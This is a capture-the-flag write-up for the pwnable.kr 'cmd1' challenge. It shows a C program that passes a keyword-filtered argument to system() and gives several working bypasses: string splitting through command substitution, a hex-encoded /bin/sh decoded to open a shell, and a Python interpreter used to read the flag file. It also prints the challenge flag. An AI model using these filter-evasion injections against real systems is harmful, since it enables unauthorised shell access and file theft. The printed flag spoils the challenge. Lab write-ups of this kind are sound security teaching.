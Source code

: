 ```yaml
---
title: "Pwnable.kr - cmd1"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/cmd1.png
ribbon: red
description: "The next two challenges (cmd1 and cmd2) are about bypassing input filters to execute a command.
First it changes the `$PATH` environment variable (which contains the paths to executables) to an unknown location, this way we cannot just use for example `echo test`, it should be `/bin/echo test`..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy! what is PATH environment in Linux?



```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

The next two challenges (cmd1 and cmd2) are about bypassing input filters to execute a command.

First it changes the `$PATH` environment variable (which contains the paths to executables) to an unknown location, this way we cannot just use for example `echo test`, it should be `/bin/echo test`.

There is more than one solution to this challenge, I will list some of them.

> Notice the difference between single quotes and double quotes in argv:
>
> $ ./test '$(echo abc)' <br>argv[1] = $(echo abc)
>
> $ ./test "$(echo abc)"<br>
> argv[1] = abc
>
> Single quotes pass the command without executing it.<br>Double quotes executes the command then passes its output (cannot pass the filter).

# Solution:

```
cmd1@pwnable:~$ ./cmd1 '$(printf "/bin/cat %s%s" "fl" "ag")'
```

```
cmd1@pwnable:~$ ./cmd1 '$(/bin/echo 2f62696e2f7368 | /usr/bin/xxd -r -p)'  # 2f62696e2f7368 = /bin/sh
$ /bin/cat flag
```

```
cmd1@pwnable:~$ ./cmd1 '$(/usr/bin/python)'
>>> f = open("/tmp/myflag", "w")
>>> f.write(open("flag").read())
>>>
cmd1@pwnable:~$ cat /tmp/myflag
```

Flag: `mommy now I get what PATH environment is for :)`